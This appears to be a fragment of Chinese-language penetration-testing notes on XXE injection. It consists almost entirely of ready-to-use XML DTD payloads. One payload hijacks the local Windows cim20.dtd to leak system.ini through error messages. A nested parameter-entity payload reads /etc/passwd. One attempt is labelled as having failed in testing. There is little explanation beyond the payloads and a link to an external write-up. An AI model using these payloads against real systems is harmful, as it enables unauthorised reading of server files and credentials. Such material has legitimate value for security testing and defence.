 



##### 引入本地系统文件--测试失败

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
    <!ENTITY % SuperClass '
         >Your DTD code<!ENTITY test "test"
        '>
    %local_dtd;
]>
```

DTD code

```xml-dtd
<!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
```

payload

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
        <!ENTITY % SuperClass '>
         <!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error; <!ENTITY test "test"
        '>
    %local_dtd;
]>
```







##### 嵌套参数实体

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ELEMENT message ANY>
    <!ENTITY % para1 SYSTEM "file:///etc/passwd">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
```
